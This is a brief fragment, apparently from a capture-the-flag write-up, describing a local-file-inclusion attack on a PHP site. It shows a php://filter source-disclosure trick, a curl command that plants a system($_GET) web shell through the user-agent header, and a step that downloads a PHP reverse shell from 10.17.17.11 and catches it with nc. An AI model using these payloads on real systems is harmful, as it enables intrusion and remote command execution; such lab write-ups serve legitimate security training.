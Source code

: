 php://filter/convert.base64-encode/resource=index

We inject a php $_get variable with curl http://<IP>/ -H "user-agent: <? php system($_GET['lfi']);?>" which we use for command execution

Upload php_reverse_shell with "curl http://10.17.17.11:8000/shell.php -o shell.php", run it with nc listener to get nc reverse shell.